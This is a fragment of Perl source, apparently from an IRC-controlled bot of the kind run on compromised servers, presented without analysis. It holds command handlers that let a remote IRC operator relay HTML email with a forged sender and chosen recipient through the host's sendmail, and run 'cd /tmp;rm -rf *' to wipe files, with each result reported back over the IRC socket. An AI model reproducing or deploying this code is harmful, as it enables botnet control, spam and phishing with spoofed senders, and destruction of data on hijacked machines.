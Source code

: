 ###################### 

if ($funcarg =~ /^sendmail\s+(.*)\s+(.*)\s+(.*)\s+(.*)/) { 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Mailer12]  Mailer :. |  Sending Mail to : 2 $3"); 

$subject = $1; 

$sender = $2; 

$recipient = $3; 

@corpo = $4; 

$mailtype = "content-type: text/html"; 

$sendmail = '/usr/sbin/sendmail'; 

open (SENDMAIL, "| $sendmail -t"); 

print SENDMAIL "$mailtype\n"; 

print SENDMAIL "Subject: $subject\n"; 

print SENDMAIL "From: $sender\n"; 

print SENDMAIL "To: $recipient\n\n"; 

print SENDMAIL "@corpo\n\n"; 

close (SENDMAIL); 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Mailer12]   Mailer :. |  Mail Sent To : 2 $recipient"); 

} 

###################### 

#   End of MAILER    #  

###################### 

# A /tmp cleaner 

  

if ($funcarg =~ /^cleartmp/) {  

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3TMPCleaner12] /tmp is Cleaned"); 

} 

if ($funcarg =~ /^no/) {  

    system 'cd /tmp;rm -rf *'; 

         sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3TMPCleaner12] /tmp is Cleaned"); 

         } 
